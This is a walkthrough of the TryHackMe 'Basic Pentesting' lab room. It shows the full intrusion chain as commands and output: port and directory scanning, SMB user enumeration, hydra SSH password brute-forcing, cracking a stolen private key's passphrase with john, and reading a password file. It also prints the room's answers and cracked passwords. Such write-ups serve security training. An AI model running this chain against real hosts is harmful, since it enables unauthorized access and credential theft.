 > https://tryhackme.com/room/basicpentestingjt

In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration

## Walkthrough

Run autorecon first in background

```bash
┌──(kali㉿kali)-[~]
└─$ sudo $(which autorecon) 10.10.173.48
[*] Scanning target 10.10.173.48
[*] [10.10.173.48/all-tcp-ports] Discovered open port tcp/80 on 10.10.173.48
[*] [10.10.173.48/all-tcp-ports] Discovered open port tcp/139 on 10.10.173.48
[*] [10.10.173.48/all-tcp-ports] Discovered open port tcp/445 on 10.10.173.48
[*] [10.10.173.48/all-tcp-ports] Discovered open port tcp/22 on 10.10.173.48
[*] [10.10.173.48/all-tcp-ports] Discovered open port tcp/8080 on 10.10.173.48
...
```

Enumerate manually on port

```bash
nmap --script intrusive -p 22 -vv 10.10.173.48
```

## What is the name of the hidden directory on the web server(enter name without /)?

```bash
┌──(kali㉿kali)-[~/thm]
└─$ feroxbuster -u http://10.10.173.48 --burp
...
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       10l       24w      158c http://10.10.173.48/
301      GET        9l       28w      318c http://10.10.173.48/development => http://10.10.173.48/development/
200      GET        7l       42w      235c http://10.10.173.48/development/j.txt
200      GET        9l       89w      483c http://10.10.173.48/development/dev.txt
...
```

> development

## What is the username?

![](attachment/295966d38a3eaf23e003277a6e58d8e9.png)

![](attachment/fb0ceeb061f32a0348caff18cca3abc8.png)

According to the above info:
- SMB worth a try
- User with code `J` have weak password

```bash
┌──(kali㉿kali)-[~/thm]
└─$ enum4linux 10.10.173.48 -a | tee enum5linux.log
...
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
...
```

> jan

## What is the password?

After knowing the unix username, bruteforce `ssh` instead of `smb` because it's faster

```bash
┌──(kali㉿kali)-[~/thm]
└─$ hydra -l jan -P /opt/wordlists/rockyou.txt 10.10.173.48 ssh
...
[22][ssh] host: 10.10.173.48   login: jan   password: armando
...
```

## What service do you use to access the server(answer in abbreviation in all caps)?

> ssh

## What is the name of the other user you found(all lower case)?

> kay

## Enumerate the machine to find any vectors for privilege escalation

```bash
┌──(kali㉿kali)-[~/thm]
└─$ sshpass -p armando ssh -o "StrictHostKeyChecking no" jan@10.10.31.182
...
══╣ Possible private SSH keys were found!
/home/kay/.ssh/id_rsa
...
```

```bash
┌──(kali㉿kali)-[~/thm]
└─$ vi private.key

┌──(kali㉿kali)-[~/thm]
└─$ chmod 600 private.key

┌──(kali㉿kali)-[~/thm]
└─$ ssh kay@10.10.31.182 -i private.key
Enter passphrase for key 'private.key':
```

It's requesting for password

Crack it with john

```bash
┌──(kali㉿kali)-[~/thm]
└─$ ssh2john private.key > private.key.hash

┌──(kali㉿kali)-[~/thm]
└─$ john private.key.hash --wordlist=/opt/wordlists/rockyou.txt
...
beeswax          (private.key)
...
```

## What is the final password you obtain?

Login

```bash
┌──(kali㉿kali)-[~/thm]
└─$ ssh kay@10.10.31.182 -i private.key
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

> heresareallystrongpasswordthatfollowsthepasswordpolicy$$
